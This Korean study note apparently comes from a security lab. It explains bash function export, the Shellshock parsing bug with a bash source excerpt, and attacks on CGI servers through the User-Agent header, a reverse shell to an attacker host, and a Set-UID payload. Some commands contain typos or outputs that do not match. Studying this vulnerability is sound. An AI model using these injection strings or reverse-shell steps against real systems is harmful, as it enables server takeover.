 
- 배경 : 쉘 함수
	- 쉘 프로그램은 운영 체제의 명령 줄 해석기
	- 사용자와 운영 체제 간의 인터페이스 제공
	- sh, bash, zsh 등 이 존재
	- bash 쉘은 가장 인기있는 linux 쉘 중 하나
	- 쉘 쇼크 취약점은 쉘 함수와 관련 있음
	- 예시
```shell
 $ foo() { echo "Inside Func"; }
 -> foo라는 함수를 정의
 $ declare -f foo
foo () 
{ 
    echo "Inside Func"
}
-> 함수의 정의를 확인
 $ foo
Inside Func
-> 함수 호출
 $ unset -f foo
 -> 함수 삭제
 $ declare -f foo
 -> 함수의 정의를 확인하면 아무것도 없다
```

- 자식 프로세스에 쉘 함수 전달하기
	- Approach 1 : 부모 쉘에서 함수를 정의하고 내보내면, 자식 프로세스에서 해당 함수 사용 가능
	**- 부모 프로세스도 쉘 프로세스여야 함**
	- 부모가 쉘 함수를 전달한다는 것은 자식 프로세스의 **환경 변수로써** 쉘 함수를 전달하는 것
	- ps $ x 2 로 현재 pid 확인 가능
	- 예시
```shell
$ foo() { echo "Inside Func"; }
 -> foo라는 함수를 정의
$ declare -f foo
foo () 
{ 
    echo "Inside Func"
}
-> 함수의 정의를 확인
$ foo
Inside Func
-> 함수 호출
$ export -f foo
-> 내보내기
$ bash 
-> 자식 프로세스 생성
$ ps $$
-> 자식 프로세스의 pid 나옴
$ declare -f foo
foo (){
	echo "Inside Func"
}
$ foo
Inside Func
```

- 부모 프로세스의 foo()를 unset 한다면 자식 프로세스의 foo()도 해제된다.
- Approach 2 : 환경 변수를 정의한다. 그것이 곧 차일드 배쉬 프로세스의 함수 정의가 된다.
	**- 부모 프로세스가 쉘 프로세스가 아니더라도 환경 변수만 가지고 있으면 된다**
```shell
$ foo = '() { echo "hello"; }'
$ echo $foo
() { echo "hello"; }
$ declare -f foo
-> 아직 쉘 변수 상태이므로 declare 안먹힘
$ export foo
-> export를 통해 child의 환경변수에 추가하고, shell function으로 변환
$ bash_shellshock
-> 취약한 버전의 bash를 차일드에서 실행
-------------------child------------------
$ echo $foo
-> foo는 더이상 shell 변수가 아닌, shell function이다
$ delcare -f foo
foo(){
	echo "hello"
}
$ foo
hello
```

- 두 approach 비교
	- 둘다 환경변수를 사용한다는 점에서 비슷하다
	- approach 1은 부모 쉘이 새 프로세스를 생성했을 때, 각 exported function definition을 환경변수로써 전달한다
	- 자식 프로세스가 bash를 실행하면 bash는 환경 변수를 함수 정의로 다시 해석 =. approach 2
	- approach 2는 부모 프로세스가 쉘 프로세스일 필요가 없다 → 환경변수만 사용 가능하면 됨

- shellshock vulnerability
	- 부모 프로세스는 환경 변수를 통해 자식 쉘 프로세스에 함수 정의 전달
	- 이때 구문 분석 논리 버그로 인해 bash는 변수에 포함된 일부 명령 실행
```shell
$ foo='() {echo "hello";}; echo "attack";'
$ echo $foo
() { echo "hello world"; }; echo "attack";
$ export foo
$ bash_shellshock
-> run bash (vulnerable ver)
attack
-> extra command gets executed!
-----------------child--------------------
$ echo $foo
-> shell function이므로 무응답
$ declare -f foo
foo (){
	echo "hello"
}
```

- bash code의 문제점
``` c
void initialize_shell_variables (char** env,int privmode) {

	if (privmode == 0 && read_but_dont_execute ==0 && STREQN ("() (",string,4)))
}
-> parsing하며
foo = () {echo "hello";}; echo "extra";를
foo () {echo "hello";}; echo "extra";로
코드를 전환한다 (등호 없애기)

parse_and_execute(temp_string, name, SEVAL_NONINT | SEVAL_NONIST);
-> 전환된 코드에서 세미콜론을 기준으로 foo(){echo "hello";} 실행 후 echo "extra"를 실행한다
```

- 위의 두 부분이 shellshock vulnerability이다
- shellshock vulnerability를 발생시키는 두 요인
	- 타겟 프로세스는 공격자에 의해 설정된 환경 변수를 가지고 있어야 함 (echo “attack” 등) 
	- 타겟 프로세스가 bash shell을 trigger 해야함
	  (bash_shellshock 등)
	- 타겟 프로세스가 SetUID 프로그램일 시 더욱 치명적일 것
- CGI 프로그램에 대한 Shellshock 공격
	- CGI는 웹 서버가 동적으로 웹 페이지를 생성하는 실행 프로그램을 실행하는데 사용
	- CGI 프로그램은 쉘 스크립트를 사용하며, bash 사용 시 shellshock에 취약할 수 있음
- CGI 프로그램을 이용한 공격 방법
	- 웹 서버가 CGI 프로그램 호출
		- 사용자가 CGI url을 아파치 웹서버에 보낼 때 아파치는 요청을 확인하고, cgi 요청인 경우 fork()를 사용해 새 프로세스를 시작하고, exec()함수를 사용해 cgi 프로그램 실행
		- cgi 프로그램이 #! /bin/bash_shellshock으로 시작하면, exec은 실제로 /bin/bash_shellshock 실행해 쉘 스크립트 실행
	- 사용자 데이터가 cgi 프로그램에 전달
		- 아파치가 자식 프로세스를 생성할 때 bash 프로그램(자식 프로세스)에 모든 환경 변수를 제공
		- curl -A 옵션을 사용해 사용자 Agent 필드를 원하는 값으로 변경 가능
	- shellshock 공격 실행
		- 악의적인 명령을 포함한 환경 변수를 설정해 공격 실행
		- 기본적으로 웹 서버는 우분투에서 www-data 사용자 id로 실행 → 이를 통해 서버를 완전히 장악 할 수는 없지만, 몇가지 피해를 줄 수 있는 작업 수행 가능
		- 예시) 리버스 쉘 생성
			- 공격자는 자신의 머신(10.9.0.1)에서 netcat 명령어를 실행해 리버스 쉘 연결을 기다림
			- 공격자는 curl -A를 통해 user-agent 헤더에 악성 명령어 포함
			- 피해자 웹 서버 컨테이너 쉘에서 특정 명령어 실행해 리버스 쉘 생성
			- 악성 명령어 포함된 환경변수 받은 후 배쉬는 환경 변수를 실행
			- 명령어 실행 후, 공격자는 피해자 웹 서버(10.9.0.80)에서 연결 받음
			- 이후 공격자는 서버 머신에서 원하는 명령어 실행 가능
	- docker 명령어
		- docker-compose build: 이미지 빌드
		- docker-compose up: 서비스 시작
		- docker-composer down: 서비스 중지
		- docker ps: 실행중인 docker 컨테이너 id 목록
		- docksh <id> : id의 컨테이너 쉘 획득
	- shellshock attack on set-uid
		- export foo = ‘() { echo “hello” }; /bin/sh’

~# /bin/bash -i